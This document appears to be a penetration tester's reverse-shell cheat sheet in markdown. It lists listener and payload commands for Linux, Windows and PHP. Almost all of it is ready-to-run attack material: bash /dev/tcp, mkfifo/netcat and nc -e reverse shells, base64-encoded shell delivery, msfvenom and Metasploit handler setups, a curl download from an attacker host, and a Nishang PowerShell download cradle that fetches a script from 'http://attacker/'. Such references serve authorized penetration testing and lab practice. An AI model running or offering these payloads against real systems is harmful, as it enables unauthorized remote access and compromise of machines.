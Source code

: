 # Linux

## Listeners

Netcat
`nc -lvnp port`

Meterpreter Linux x64 Reverse TCP Staged
```
msfconsole -q
use multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Note: Sometimes need to sh or bash -c 'revshell' for these to work.

Other Note: Can curl --data-urlencode params
```
curl http://target/file --data-urlencode "paramname=paramvalue"

Great for initial access via revshells through web shells.
```

sh -i
`sh -i >& /dev/tcp/ipaddress/port 0>&1`

nc mkfifo
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ipaddress port >/tmp/f`

nc -e
`nc ipaddress port -e sh`

Base64 Revshell Linux
```
echo -n 'payload' | base64 > payload.b64 # Can add spaces to eliminate plus signs

echo payload.b64 | base64 -d | bash
```

Curl (still need to chmod and execute)
`curl attacker:port/shell.sh -o /remote/shell.sh`

Meterpreter Linux x64 Reverse TCP Staged
`msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=ipaddress lport=port -f elf -o shell`

# Windows

## Listeners

Meterpreter Windows x86 Reverse TCP Staged
```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Meterpreter Windows x86 Reverse TCP Staged
`msfvenom -p windows/meterpreter/reverse_tcp lhost=ipaddress lport=port -f exe > shell.exe`

Meterpreter Windows x64 Reverse TCP Staged
`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ipaddress lport=port -f exe > shell.exe`

Netcat
`nc.exe -e cmd.exe ipaddress port`

Nishang PowerShell Revshell (GitHub linked in Tools document)
```
echo -n "IEX(new-object net.webclient).downloadstring('http://attacker/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w0 > payload.b64

# iconv converts payload to encoding used by Windows

echo 'Invoke-PowerShellTcp -Reverse -IPAddress ipaddress -Port port' >> Invoke-PowerShellTcp.ps1

start listener
start webserver

powershell -enc payload.b64
```

# PHP

Pentest Monkey
`/usr/share/webshells/php/php-reverse-shell.php`
